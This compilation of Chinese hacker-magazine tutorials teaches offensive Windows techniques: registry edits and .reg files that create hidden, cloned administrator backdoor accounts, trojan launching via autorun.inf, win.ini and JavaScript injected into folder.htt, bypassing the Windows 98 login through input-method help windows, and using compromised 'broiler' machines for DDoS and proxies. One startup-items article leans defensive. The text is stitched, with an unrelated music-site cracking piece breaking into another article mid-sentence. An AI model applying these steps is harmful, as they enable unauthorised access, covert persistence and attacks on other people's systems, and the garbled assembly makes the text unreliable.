在导出的注册表（和以前的不太一样！）中同样打开到 Users 和 Users 中的 Names 两个键中，然后同样使用第二部分中所讲的方法克隆账户。要注意的是：在 Names 中找不到用户名对应的 SID 是什么，所以我们应该清楚一般机器中 SID 的分配情况：Administrator 是 `1f4`，Guest 是 `1f5`，IUSR_Machine 是 `3e9`，IWAM_Machine 是 `3ea`，TsInternetUser 是 `3e8`。每添加一个账户 SID 便在上次的基础上加 1，即使你把这个账户删除，它所对应的 SID 也不能重新分配给其他账户。这种方法不利用任何工具，但是要求使用者必须对 SID 的分配情况有个大概的了解。当添加一个账户时，它的 SID 是最大的（除非碰上下面的情况）。

### 四、终极必杀技——制作完全隐形账户

这种说法是非常诱人的！前面的几种克隆方法已经差不多够用了，但还是可以在“计算机管理”中看到所添加的账户，这个怎么办呢？

初级：你可以建立一个类似这样的账户 langzu$，后面加一个“$”是为了让它在 CMD 中消失，但在“计算机管理”中还是可以看到的。


图 4

#### 1. 不修改 SID

先把 langzu$ 克隆成管理员账户，然后用 psu 导出注册表，把 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names` 中的键 langzu$ 重命名为 `$langzu$`，然后关闭注册表就可以了，如后面图 9 所示。

#### 2. 修改 SID

还是先把 langzu$ 克隆成管理员账户，然后看看它所对应的 SID，现在的 SID 是 3f0，然后在 Users 中相应的 SID 上点右键 ——> 重命名，把后面 3 位改成一个比较大的数（这个是 16 进制的），我改的是 `00000f9f`，也可以改成 `000001f4` 以下的任何一个，如图 3 所示。


图 3

然后看看 Names 中 langzu$ 对应的 SID，我们也要把这个 SID 改成刚才那个（9ff）。这个值直接改是改不了的，请参照如下方法：

- (1) 把 langzu$ 这个键导出，如图 4 所示。
- (2) 编辑导出的注册表文件，文件如图 5 所示。


图 5

把其中的 SID(3f0)修改成我们自己的 SID(9ff)，如图 6 所示。


图 6

- (3) 把注册表中 Names 下的 langzu$ 删除，如图 7 所示。


图 7

- (4) 把刚才修改后的文件导入注册表，如图 8 所示。现在就可以利用它来登录了。不过，在“计算机管理”中会出现“用户名找不到”的错误。


图 8

我们现在来比较一下刚才的两种方法：不修改 SID 和修改 SID。

先说一下两种方法的共同点吧！两种方法都可以使账户在 `net user`、`net localgroup administrators` 和“计算机管理”中消失，可以说是基本上隐形了，但在“计算机管理”中都会出现错误。

两者的区别在于，两种账户的制作方法不同，所以效果有区别也不奇怪哦。

第一种方法必须克隆，也许有些人认为：既然在哪都不能看到这个用户，那不克隆不也可以吗？严重错误！！笔者做过测试，如果不克隆，直接把账户添加到管理员组，那么用 `net localgroup administrators` 是以 langzu$ 的形式显示出来的。而且第一种方法在重新启动被显示出来以后，可以用 `net user $langzu$ /del` 删除！

现在回到“计算机管理”中，又出现了 langzu$ 这个账户。

(5) 我们想一下：如果只在后面加一个“$”号，在 cmd 中就看不到这个账户，那我在它前面再加一个“$”号呢？在注册表中 langzu$ 的前面加一个“$”号，如图 9 所示。

第二种方法必须要克隆和修改 SID，而且在注册表中账户的前面加一个“$”，这样才能使它在“计算机管理”中不被显示出来。我们可以用 `net user $langzu$` 来查看，但是显示的用户名是 langzu$，奇怪吧！呵呵，你可以用 `net user $langzu$ password` 来给它改密码，但是不能删除，如图 10 所示。


图 9

```
C:\>net user $langzu$ /del
用户帐号找不到。
请键入 NET HELPMSG 2221 以获得更多的帮助。

C:\>net user langzu$ /del
用户帐号找不到。
请键入 NET HELPMSG 2221 以获得更多的帮助。
```

图 10

到现在你可以用 `net user`、`net localgroup administrators` 或者在“计算机管理”中查看一下，这几个地方都没有 `$langzu$` 这个账户，但是我们却可以利用它来登录。不过，在“计算机管理”中会出现“用户名找不到”的错误。

中级：上述两种方法有个弱点：如果重新启动的话，两者都会以 `$langzu$` 的形式重新被显示在“计算机管理”中，那么我们所做的工作就白费了（其中第二种方法在“计算机管理”中同样不能删除）。原来我们做完的时候注册表中是 `$langzu$`，“计算机管理”中是 langzu$，那现在我再将它改回去，把“计算机管理”中的 langzu$ 前面的“$”删掉，然后刷新，怎么样，现在“计算机管理”中用户里面一片空白，什么用户都没有了吧，而且也不会出现错误。在注册表中自动添加了一项 langzu$，而且跟 `$langzu$` 使用的是同一个 SID，这两个账户都可以登录，而且密码等所有的一切都是一样的（弱点：需要重启后才能修改）。

### 高级（变形的克隆）

由于中级中介绍的方法只有在重启后才能使用，所以我们要另寻方法。先提醒一下大家，在上面删除掉的 `$langzu$` 其实并没有从 Names 中消失，而是一直存在的，而且在“计算机管理”中也是正常显示的。现在有些朋友可能已经想到怎么利用了吧？！

我们刚才删除的账号 `$langzu$` 没有从 Names 中消失，我们就利用这一点，看一下它关联的 SID，是一个不存在的值，这样不能登录，那么如果我就把它关联到任何一个管理员的 SID，这样又会如何呢？！用上述修改 SID 的方法把 `$langzu$` 导出，然后把 SID 值改成 1f4，或者是其他管理员的 SID（不过确保这个管理员不会被真正的管理员删除，所以最好选用 1f4），现在我们再用 `$langzu$` 登录试试，注意密码是你所使用 SID 的管理员的密码（这也算是一个缺点吧），重启后同样在“计算机管理”中看不到任何用户。

既然我们可以使用关联，一般我们进入系统后都会弄到 Administrator 的密码（用 findpass、LC4 等，具体方法不讲了），所以只要写个注册表文件，导入到注册表即可，内容如下（把其中的 panderlang 改成自己的用户名）：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\panderlang]
@=hex(1f4)
```

或者

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\panderlang$]
@=hex(1f4)
```

其实你完全可以把这种方法和一般的克隆结合起来，让两种方法互补：克隆一个禁用的账户（如 Guest），然后把他的密码改成自己的，然后用必杀技——高级中的 SID 关联方法关联到 Guest，这样就可以自己设置密码了。

到现在，这个真正的隐形账户才算出来（这里主要阐述了这种方法的发现过程）。这种方法比较隐蔽。对于中级和高级的方法，如果服务器不重启（一般服务器很少重启），管理员是发现不了什么的；即使重新启动后，工夫浅点儿的管理员对所产生的结果（“计算机管理”中用户里的所有内容全部消失）也不知所措，根本就不知道是什么问题，还以为是自己的操作有误呢！呵呵……，但是高手就会以 system 权限调出注册表，如果这样就挂了，账户马上就暴露出来哦！我曾碰到过一台台湾的服务器，竟然每次开机都会自动还原系统（克隆也没有用啊），不过系统还原也是一个不错的方法，只不过它让我郁闷了好几天。

### 总结

以上几种克隆方法由浅入深地解决了账户克隆问题，每深入一层，便安全一些，但是每种方法都有可能被网管发现，所以要做出一个强悍的后门账户，还必须努力探索。到写完这篇文章的时候，我的注册表已经乱七八糟了，多亏我备份了一份！如果你的服务器被别人用上述方法克隆了，如果使用的是必杀技——初级中的第二种方法，那么建议你修改这个账户的密码，禁用是没有用的；如果是最后一种，直接从注册表中 Names 下删除用户名即可。以上测试平台：Windows 2000 Server+SP3，以上的方法对一些域级别的系统（Advance Server 以上）可能会造成破坏，请慎重使用，对使用本文介绍的方法所造成的破坏，本文作者概不负责。

由于必杀技——初级的第二种方法（修改 SID）比较复杂，所以我做了一个动画《制作完全隐形账户——初级》，还有一个必杀技——高级中的动画也一并奉献给大家！

程序的运行无非就两种方式，一种是直接运行，点击运行程序就行了；另一种为间接运行，就是所谓的关联运行，运行一程序时触发另一程序的运行。木马作为应用程序的一种，也存在两种运行方式：一是直接运行，点击生成的远程控制软件的服务端，点击朋友用 QQ 传来的木马文件等都直接触发程序的运行等；再是间接运行，点击捆绑了木马的程序文件、利用 MIME 头漏洞做的网页木马等都是间接地通过间接的方法使程序运行，“关联陷阱”（作者自定义名称）就是其中的一种方法。

## 警惕“关联陷阱”

文／朱平


要使程序运行除了让它直接运行之外，我们可以利用间接的方法使程序运行，这里我们以关联性实现第三方程序（木马为例）的运行为实例进行介绍。作为关联性间接运行方式的一种，又常伴着木马运行，我们暂且称它为：关联陷阱。很好听吧？我取的！

```
OPEN=autorun.exe
ICON=autorun.ico
```

编辑后：

```ini
[AutoRun]
OPEN=c:\1.exe    /*运行程序路径*/
ICON=c:\autorun.ico    /*图标文件路径*/
```

### 一、Autorun.inf

大家是不是经常使用光盘？是不是有时候会发现光盘一放进去就会自动运行？《黑客防线》的光盘就是这样的，不信你试试。其主要是依靠光盘上的 autorun.inf 文件和系统文件 cdvsd.vxd（C:\WINDOWS\SYSTEM\IOSUBSYS），当光盘放入光驱，cdvsd.vxd 便开始搜寻光盘根目录下的 autorun.inf 文件，如果存在 autorun.inf 文件，便执行里面的设定程序。

同理，其也能让硬盘自动运行程序。我们拿《黑客防线》光盘下的 autorun.inf 做个试验吧。把《黑客防线》光盘下的 autorun.inf 和 autorun.ico 拷贝到 C 盘目录下。编辑 autorun.inf 文件。

```ini
[AutoRun]
```

存盘后，再拷贝自己已编的木马程序 1.exe 到 C 盘根目录下。回到“我的电脑”主目录，此时你会发现你的 C 盘已经换了图标啦，点击 C 盘后你会发现程序 1.exe 运行了，如图 1 所示。

再编辑 autorun.inf 文件，把图标路径删了，把运行程序路径加深，再加上 autorun.inf 的其他语句。呵呵，你会发现 autorun.inf 也是一个很不错的黑客工具。


### 二、开机自动运行

主要就是注册表中的几个设置自动运行的键值，这里就不再赘述了。防删有一篇文章《3389 下的后门检测》，其内容里提到的对方安装后门的方法是在注册表 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 下增加一个 `*.bat` 文件的启动键值，再利用 `*.bat` 文件运行木马程序。原理相同，只是做得更隐蔽些，大家可以参考。

### 三、修改文件夹模板文件

这是从网上一个动画教程下看到的，名字为《利用文件夹给管理员下个套》。动画教程做得很精致，其原理是修改文件夹的模板文件：`folder.htt`，在其中插入 javascript 语言自动运行程序的代码，从而关联运行木马文件。

首先随意打开一文件夹，此时是看不到模板文件的。我们打开文件夹选项（工具 --> 文件夹选项），在查看设置中把选项“隐藏受保护的操作系统文件（推荐）”前的勾去除，并选择“显示所有文件夹”，如图 2 所示。

此操作是去除模板文件的受保护。再选择菜单查看 --> 自定义文件夹，出现自定义文件夹的设置对话框，点击“下一步”直到完成。此时，你会发现文件夹下多了个名为 Folder Settings 的文件夹，打开后你就会看到里面有模板文件：`folder.htt`，用记事本打开，你会发现里面是 html 语言，如图 3 所示。


图 3

现在只要把勾选的 JavaScript 自动运行程序的代码插入其中就可以了。

```html
<script language="javascript">
run_exe='<OBJECT ID="RUNIT" WIDTH=0 HEIGHT=0 TYPE="application/x-oleobject" CODEBASE="test.exe#version=1,1,1,1">';  /* 运行文件名 */
run_exe+='<PARAM NAME="_Version" value="65536">';
run_exe+='</OBJECT>';
document.open();
document.clear();
document.writeln(run_exe);
document.close();
</script>
```

保存后，当你打开此文件夹时，伴随着 `test.exe` 也会自动运行。


图 2

以上只是木马程序关联运行的几个小例子，真正防范起来也很简单。有经验的话，一眼就能看穿，毕竟程序的运行还是会有痕迹的。如果你没经验的话，下载木马克星等查杀木马的软件，多检测注册表的启动项，多看些木马隐藏和运行的文章等。或许看完这篇文章也能给你些启发吧。

最后，文章写得很浅，也不全面，没什么技术性可言，只是加了些自己的心得，再做了个总结，方便大家学习。

## 启动项


Windows 系统中启动项目总是我们关注的焦点，因为如果里面被别人做了手脚的话，那么木马程序、恶意软件、病毒程序……这些我们不希望看到的东西都会在不知不觉中在计算机系统启动的时候悄悄启动！这样带来的后果可想而知。系统被木马侵袭、恶意软件出其不意的骚扰，病毒程序驻留计算机并随时进行破坏！所以，给各位读者介绍系统自启动程序的相关内容，希望能为各位读者的计算机做更好的安全防护！

文／独行者

### 一、“启动”项目

我们知道，Windows 中有自带的启动文件夹，它是最常见的启动项目，但很多人却很少注意仔细检查它。如果把程序装入到这个文件夹中，系统启动就会自动地加载相应程序，而且因为它是暴露在外的，所以非常容易被外在的因素更改。具体的位置是“开始”菜单中的“启动”选项，在硬盘上的位置是：`C:\windows\startmenu\programs\startup`，在注册表中的位置是：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders` `Startup="C:\windows\startmenu\programs\startup"`（以 Windows 98 为例），现在你可以打开看看里面有没有什么不明的程序存在。

### 二、msconfig

msconfig 是 Windows 系统中的“系统配置实用程序”；它管的方面可够宽，包括：system.ini、win.ini、启动项目等。同样，里面也是自启动程序非常喜欢呆的地方！

- 1. system.ini

首先，在“运行”对话框中输入“msconfig”来启动系统配置实用程序（下同），找到 system.ini 标签，里面的“shell=……”就可以用来加载特殊的程序，如果你的 `shell=` 后面不是默认的 `explorer.exe`，或者说后面还有一个程序的名字，那你可要小心了，请仔细检查相应的程序是否安全！

- 2. win.ini

如果我们想加载一个程序：`hack.exe`，那么可以在 `win.ini` 中用下面的语句来实现：

```ini
[windows]
load=hack.exe
run=hack.exe
```

该怎么做，你应该知道了吧！

- 3. “启动”项目

系统配置实用程序中的启动标签和我们上面讲的“启动”文件夹并不是同一个东西，在系统配置实用程序中的这个启动项目是 Windows 系统启动项目的集合地，几乎所有的启动项目都能在这里找到——当然，经过特殊编程处理的程序可以通过另外的方法不在这里显示。

打开“启动”标签，“启动项目”中罗列的是开机启动程序的名称，“命令”下是具体的程序附加命令，最后的“位置”就是该程序在注册表中的相应位置了，你可以对可疑的程序进行详细的路径、命令检查，一旦发现错误，就可以用下方的“禁用”来禁止该程序开机时候的加载。

一般来讲，除系统基于硬件部分和内核部分的系统软件的启动项目外，其他的启动项目都是可以适当更改的，包括：杀毒程序、特定防火墙程序、播放软件、内存管理软件等。也就是说，启动项目中包含了所有我们可见的程序的列表，你完全可以通过它来管理你的启动程序！

```text
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices]
```

注意同安全、清洁的系统注册表相应键进行比较，如果发现不一致的地方，一定要弄清楚它是什么东西！不要相信写在外面的“system”、“windows”、“programfiles”等名称，谁都知道“欲盖弥彰”的道理。如果经过详细的比较，可以确定它是不明程序的话，不要手软，马上删除！

### 三、注册表中相应的启动加载项目

注册表的启动项目是病毒和木马程序的最爱！非常多的病毒和木马的顽固性就是通过注册表来实现的，所以平常的时候可以下载个注册表监视器来监视注册表的改动，特别是在安装了新的软件或者是运行了新的程序的时候，一定不要被程序漂亮的外表迷惑，一定要看清楚它的实质是不是木马的伪装外壳或者是捆绑程序！必要的时候可以根据备份来恢复注册表，这样的注册表程序网上很多，这里也就不再罗嗦了。

我们也可以通过手动的方法来检查注册表中相应的位置，虽然它们很多是和上文讲的位置重复，但是对网络安全来讲，小心是永远不嫌多的！

### 四、wininit.ini

我们知道，Windows的安装程序常常调用这个程序来实现安装程序后的删除工作，所以不要小看它，如果在它上面做手脚的话，可以说是非常隐蔽，非常完美的！

它在系统盘的Windows目录下，用记事本打开它（有时候是 wininit.bak 文件）可以看到相应的内容，很明显，我们可以在里面添加相应的语句来达到修改系统时候程序或者是删除程序的目的——如果是文件关联型的木马，可以通过 wininit.ini 来删除它感染后的原始文件，从而达到真正隐藏自己的目的！

```text
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce]
```

### 五、DOS下的战斗

最后，我们说说 DOS 下的启动项目的加载，config.sys、autoexec.bat、*.bat 等文件都可以用特定的编程方式来实现加载程序的目的，所以不要以为 DOS 就是个过时的东西，好的 DOS 下的编程往往能达到非常简单、非常实用的功能！这样的例子《黑客防线》以往的刊物上很多，也很全面，我就不在鲁班门前耍大斧了，如果有兴趣可以找找看，那片天地一定能让你感觉到非常神奇！

关于启动就说这么多了，鉴于小弟的水平，当然不可能说到全面，也不可能做到完美，或许还有纰漏，如果是那样的话，希望广大《黑客防线》的朋友们能给小弟提个醒，大家交流交流，不甚感激！

## 如何绕过登录密码


## 进入 *Windows 98* 系统

文/延墨者

计算机的使用者通过修改注册表，可防止非法用户登录进入 Windows 98 系统。在不重新启动计算机的前提下，如何在系统处于登录状态时，以合法用户的身份进入 Windows 98 系统，正是我要和各位分享的经验，不足之处还请大家多多指正！

### 一、如何防止非法用户登录 Windows 98 系统

在介绍以合法用户的身份进入 Windows 98 系统之前，先要简单说说如何修改注册表，防止非法用户登录入 Windows 98 系统。在运行中输入 `Regedit.exe`，打开注册表编辑器，依次展开 `HKEY_LOCAL_MACHINE\Network\Logon\` 分支，在右侧新建 “DWORD” 值 `MustBevalidated`，将值设为 1，即可防止非法用户登录。重启后，在系统显示 Windows 桌面之前，会显示一个系统登录窗口，不同用户登录不同的桌面（图 1）。


如果没有合法用户的密码，对不起！密码输入错误，不能进入 Windows 98 系统，从而保护了系统不被非法用户登录（注：在“网上邻居”上单击右键，选择“属性”，将“主网络登录”选择为“Windows 友好登录”，才能实现此效果）。

### 二、系统如何加载用户密码

正所谓“知己知彼”，方能“百战百胜”。为此还要了解系统是如何加载用户密码的。

Windows 98 系统的登录密码保存在 `C:\windows\*.pwl` 文件中，其中的 `*` 代表系统中的用户名；`pwl` 是用户密码文件的扩展名。如系统中的一个用户为 “STU”，那么该用户的登录密码就是 `STU.pwl`，若有多个用户，则存在多个 Pwl 文件。

系统在启动时，会加载系统的配置文件 `system.ini`，在该文件中有一项 `[Password Lists]`，则表示系统用户所对应的登录密码列表。用“记事本”打开 `C:\windows\system.ini` 文件，找到 `[Password Lists]` 项，会看到类似如下显示：`STU=C:\WINDOWS\STU.PWL`（多个用户则有多行列表），意思是 STU 用户的登录密码是 `STU.PWL`，当 STU 用户输入密码时，系统根据此项配置，同 `STU.PWL` 进行验证，正确，进入系统；否则，提示密码不对，拒绝登录。

如果将此项记录 `STU=C:\WINDOWS\STU.PWL` 改为 `STU=C:\WINDOWS\STU00.PWL`（注意到没，我只是将 STU 随便改了一下，加了两个 00，可随意命名），则系统在验证用户密码时，因为找不到 STU 用户的密码文件 `STU00.PWL`，认为该用户没设密码，无需验证，从而以该用户的身份进入 Windows 98 系统。

### 三、如何绕过登录密码进入 Windows 98 系统

如何在不能进入系统的情况下修改 `system.ini` 中的用户密码名，正是我要和各位分享的经验。（关键时刻，不要走开，Let's Go！）如果你有利用 3389 端口的入侵经验，那一定对输入法的漏洞不陌生。OK，那位大侠说对了，就是利用输入法的漏洞，修改系统配置文件“system.ini”，绕过登录密码进入合法用户的 Windows 98 系统。

如何调出输入法呢？一般是这样的，当系统处于登录状态时，将焦点（光标）移至登录窗口中的用户名上，然后同时按下 Ctrl + Shift 键，切换系统中存在的输入法，根据不同的输入法选择不同的漏洞。下面介绍根据不同的漏洞进行的尝试结果。

### 1. 利用微软拼音输入法1.5版本中的帮助


在微软拼音输入法上单击右键，在弹出的菜单中选择“帮助…”（灰色，那请跳过这段往下看），打开“帮助主题－微软拼音输入法”窗口，双击显示其中的任何一个帮助，打开“微软拼音输入法帮助”窗口（图2），再依次点击“文件”菜单中的“打开”，弹出打开文件对话框，将搜寻路径定位于 Windows 文件夹内，在文件名中输入“*.ini”，回车或点击“打开”，然后拖动滚动条查找“system.ini”文件，在“system.ini”上单击右键，选择“打开”，用默认的记事本程序打开“system.ini”，找到其中的 [Password Lists] 项，将其下的 STU 用户密码修改为 `STU=C:\WINDOWS\STU00.PWL`，然后保存该文件。关闭“记事本”程序，关闭打开对话框，关闭输入法的帮助窗口。回到系统的登录状态，点击“取消”，系统会弹出密码错误提示，不要管它，“确定”后再回到系统的登录状态。这时用户“STU”的密码输入框已变成灰色，不用再输入密码，只要点击“确定”就可以大摇大摆地进入 Windows 98 系统了。注意：进入系统后要及时将“system.ini”中 `STU=C:\WINDOWS\STU00.PWL` 改为 `STU=C:\WINDOWS\STU.PWL`，否则，当该用户登录时，就会发现不对头了！！

### 2. 利用微软拼音输入法1.5版本中的定义词典

在微软拼音输入法上单击右键，在弹出的菜单中选择“定义词典”，打开“用户自造词工具”窗口，单击“文件”菜单中的“输入…”，弹出“用户自造词工具”窗口，（图3），是否同“打开文件窗口”一样（“般若波罗密”，时光倒流，再来一遍）；将搜寻路径定位于 Windows 文件夹内，在“文件名”中输入“*.ini”，点“打开”或回车，现在窗口内是不是已经有了“system.ini”文件，在“system.ini”上单击右键，选择“打开”，找到 [Password Lists] 项，将其中的 STU 用户密码修改为 `STU=C:\WINDOWS\STU00.PWL`，然后保存该文件。关闭“用户自造词工具”输入窗口，关闭“用户自造词工具”窗口。回到系统的登录状态，点“取消”，再点“确定”，现在 stu 用户的密码输入框是不是又变成灰色了，点“确定”又一次进入 Windows 98 系统（真不好意思！）。（记得进入系统后不要忘了将“system.ini”中 `STU=C:\WINDOWS\STU00.PWL` 改为 `STU=C:\WINDOWS\STU.PWL`）


### 3. 利用微软拼音输入法2.0版本或其他输入法的帮助

如果系统中装的是微软拼音输入法2.0版本，那以上的两条路就是不通了，但可以尝试下面的方法（也试用其他输入法软件：如紫光、万能五笔等），破解方式和利用 3389 端口入侵系统的方式一样。同样用 Ctrl + Shift 键切换至该输入法，在输入法上单击右键，选择“帮助”，打开“帮助”窗口，在“选项”（或窗口标题栏上）单击右键，选择“跳至 URL…”，在打开的对话框内输入“C:\windows”，（图4），打开 Windows 文件夹，在其中找到“system.ini”，和刚才的手法一样，修改“system.ini”中 `STU=C:\WINDOWS\STU.PWL` 为 `STU=C:\WINDOWS\STU00.PWL`，然后保存该文件，关闭所有窗口。回到系统的登录状态，“取消”一次，然后再回到系统的登录状态，就可以用合法用户的身份登录了。（不要忘了更改“system.ini”中的值）


## 网络新手 IP 地址随心变，1 秒钟变一个！

尽管互联网连接了无数的服务器和电脑，但它们并不是处于杂乱无章的无序状态。而是每一个主机都有唯一的地址，作为该主机在互联网上的唯一标志。我们称为 IP 地址（Internet Protocol Address）。举个形象的例子来讲：你现在住在哪，总有个地址吧，比如上海市某区某路某号某室，IP 地址就是你在网上的地址，脱机状态一般是 127.0.0.1，比如现在我的机器的 IP 地址是 218.80.33.198，既然 IP 地址是上网主机在网络上的唯一标志，那么 IP 地址又是如何随意变化的呢？且看本文分解。


网络新手 IP 地址随心变，1 秒钟变一个！主要原理是通过快速切换代理服务器地址来达到 1 秒钟变一个 IP 的功效。“代理”通俗地讲，就是你通过某一代理服务器而访问另一台服务器。代理服务器英文全称是 Proxy Server，其功能就是代理网络用户去取得网络信息。形象地说：它是网络信息的中转站。在一般情况下，我们使用网络浏览器直接去连接其他 Internet 站点取得网络信息时，须送出 Request 信号来得到回答，然后对方再把信息以 bit 方式传送回来。


### 一、工具介绍

- 1. QQ代理公布器 XP

在上网时候使用代理，可以在网络上隐藏自己的真正身份，访问一些只有特定 IP 才能访问的网站，有时甚至可以加速上网的速度。所以，能正确地使用代理可以使网上的生活更加的精彩、丰富。但代理有它的特殊性，一般都不能长久地使用，经常都需要找新的代理。用在线扫描的方法需要很长的时间，有时一整天只能扫描到几个真正能用的代理。要代理，只能经常访问一些公布代理的网站、论坛，非常的麻烦。QQ 代理公布器就是发布一些网上的免费代理资源的程序。适用平台：Windows 9x/NT4/2000/XP，界面如图 1 所示。下载地址：

http://tj-http.skycn.net/down/qqproxy.rar

- 2. 我要上网去

一个支持多窗口、中文地址、邮箱登录、全方位搜索、完全 IE 界面的浏览器，已经把多窗口技术发挥得淋漓尽致，免除了在任务条上来回切换 IE 的烦恼，相当 IE--IE+。本软件支持“中文网址”，现在咱老百姓上网更方便了，无需记忆长长的英文了，例如你可在地址栏输入“计算机世界”等中文的地址。支持国内大多数的 Web 邮箱登录，令你只输入一次的账号和密码便可同时登录多个服务器，大大提高效率。更方便的关键词搜索，收集了各分类将近 50 个搜索引擎，包括新闻、软件、MP3、股票等 10 个分类。完全的 IE 界面，支持 URL 地址自动完成。占用更少的系统资源，更好地集成了拖放下载功能，使你能在网上风一般地冲浪，界面如图 2 所示。


### 二、添加 IP

安装上面的软件，然后打开 QQ 代理公布器 XP，在“代理类型”选中 HTTP，在参数中选中“是否测试代理”的钩打上，按“读取数据”按钮，在 IP 地址处单击鼠标右键，出现图 1 所示的菜单，选中复制“IP 地址（图中为 218.47.50.58）；端口号（图中为 80）”，然后打开“我要上网”，在菜单栏——工具——代理设置——添加，出现以下文本文件：

```text
************************************
Title=host:port
host:port

example:

localhost=127.0.0.1;8080
127.0.0.1;8080

************************************

127.0.0.1;8080
```

把复制的数据放在 127.0.0.1:8080 下面一行，即：

```text
127.0.0.1:8080
218.47.50.28:80
```

以此类推出，想添加多少 IP 地址就添加多少，保存退出。然后就好办了，首先访问一下本站 http://978229.myrice.com，在网页的最上面会显示你的 IP 地址，如图 3 所示：


然后在 1 秒以内（作者作过实验，可以做到），在菜单栏——工具——代理设置选中一个 IP 地址即可，这样一来，IP 地址就改变了。然后在访问本站试试，出现如图 4 的提示：


重复上面的操作，那你就可以 IP 地址随心变，1 秒钟变一个！

> **注意：**
> 1. 在使用 QQ 代理公布器 XP 时，一定要选中 HTTP 代理，否则不行，IP 数据最好经常更新，还可以到作者论坛查阅：http://www.jiayuputaojiu.com/bbs/，但要注意的是作者把每天更新的数据后面都加了乱码，这就给我们的复制工作带来了麻烦，复制好后要把后面的乱码去掉。
> 2. 在使用“我要上网去”浏览器的代理添加文本时，需要手工添加（因为保存后，浏览器会自动更新），不能直接粘贴（粘贴会出现假死机，按三键结束文本文件即可），所以可以找到“我要上网去”安装目录的 DATA 文件夹内的 Proxy.txt 文件（就是代理的文本文件），打开先编辑好，然后再重新运行“我要上网去”浏览器即可完成更新。

经常有读者发问“拿到肉鸡后我们可以做什么”，这个问题应该说比较具有代表性了。如果你现在对这一问题还颇有疑惑，希望看完本文后你可以有一些新的启发。

## 如何榨取肉鸡的剩余价值
常有朋友问我到底得到肉鸡有什么用？肉鸡能做的事情还是很多的；在这里我只举例说明一些事情，希望能够起到抛砖引玉的作用。

首先，手上当然要有顶肉鸡。肉鸡的获得方法很多，你大可通过最简单的IPC$或者这段时间很流行的RPC溢出等，这里就不多说了。下面从笔者的经验出发，谈谈肉鸡的几种用法。

### 1．再获肉鸡
一般我们得到的肉鸡都不是什么一二等货，这些别人留下来的垃圾鸡，不是机器硬件差，就是带宽少得可怜，然而利用现有肉鸡寻找好的肉鸡是再好不过的方法。一来可以隐藏自己，即使被对方发现，而对方在追查的时候得到的IP也是我们的肉鸡IP，这样给其查出我们的真实来源带来了不少的困难；二来对于像我一样还在使用五六年前的老机器的朋友来说，使用这样的肉鸡还是要强些。

### 2．开个人主页
这年代，网上的免费空间越来越少，在肉鸡上开个个人主页，也不是什么问题，但是由于管理员只要查看一下IIS管理程序，那我们的改动就会清清楚楚地暴露在管理员的眼前，所以我们还要想些方法把我们的改动隐藏起来。

打开IIS的管理器，选定一个文件夹，然后点击右键，选择“资源管理器”，到网站的根目录下新建一个文件夹（这里取名为free），然后到winnt\system32下新建一个文件夹取名为homepage，回到IIS的管理器刷新就会看到free这个目录，选中它后，点击右键，选择“新建－＞虚拟目录”，我们给这个虚拟目录取名axin，然后把这个虚拟目录指向winnt\system32\homepage，建立完成后，现在放个首页进去，打开浏览器http://ip/free/axin就应该可以正常浏览了！好了别管他，打开我的电脑，找到网站的根目录，删掉free这个文件夹，再回到浏览器刷新看看，网页依然存在，回到IIS的管理器刷新看看，free这个目录没有了，怎么样，不错吧！

### 3．DDoS攻击
DDoS向来为人所不耻，一般认为只有那些无聊的小人才会用这些下三滥的手法，但是存在就有它存在的道理。那年的黑客帝国，白宫最终不就是因为8万“红客”的DDoS攻击而访问不了了吗？可见DDoS并没有好与坏之分，关键看你用在什么地方。一般来说，1台肉鸡可以对付56K－640K ADSL，2台可以对付2M，可见肉鸡的多少和肉鸡的带宽决定了DDoS的威力。在这里推荐两款个人认为比较强的DDoS软件，都是国产货。第一款是DDOS Ping，最新版本V2.00，软件可谓同类中的佼佼者，可以对一连串的网络位置主机和服务器进行查询指令攻击，同时支持多种不同的连接速度，并且还能够自行设定每秒传送数据封包的大小，要是遇上这个煞星，那可真是倒霉到底了。第二款是现在比较流行的小金的DDoS独裁者，虽

## 恢复音乐随意听


### ——破解久听音乐网
我们首先进入久听音乐网http://www.9ting.com的首页，这里我们选择北京站http://www.9ting.com/index.htm进行破解，其他分站的道理都是一样的。

我们打开后，就以张国荣为例吧！上面推荐的“校本多情_NULL”这个经典专辑就是我们的破解目标，点击图片进入后，网址变为http://www.9ting.com/index.htm，怎么网址还不变？其实很简单，该网页使用了框架。先不管它，任意选择上面的一首歌曲破解吧，这里以第一首《这些年来》为例！万事开头难，上面不是有个下载链接吗，先不管它，直接点右键，复制快捷方式不就行了吗？我们得到的网址是“javascript:void(0)”，很显然，这样的网址是无法使用的。还是从试听下手吧！点击该图片后打开一个小窗口，稍等片刻就可以听到动听的声音了。不过我们的任务是破解，直接在该小窗口的顶部（也就是标题栏）用鼠标点一下，在键盘上按下〈Ctrl〉+〈N〉，打开了一个大窗口，和刚才的小窗口的内容是相同的！想得到这个音乐文件自然会想到查看源文件，可是该页面被禁止右键了，怎么办？在浏览器工具条点击“查看→源文件”或〈Alt〉+〈V〉+〈C〉，查到的源文件是：
```html
<html><head><meta http-equiv="Content-Type" content="text/html; charset=gb2312"><meta...
```
虽然有人说软件内存在后门，但是就其威力来说和易用性还是值得一试的。

### 4．开代理
现在的代理真是太少了，尤其是SOCKS5的，要么要密码，要么没用几天就挂了，而且这些代理谁也不知道是不是别人特意开来监测自己的，用起来心里都没底。还是自己的比较安全。网上开代理的软件有很多，比较简洁和安全的要数Snake的SkSockServer代理跳板，完全的DOS下操作，软件提供的安装说明也非常详细，这里就不讨论如何安装了。安装完成后再配上SocksCap这样的傻瓜代理软件就可以使用了。

### 5．架私服
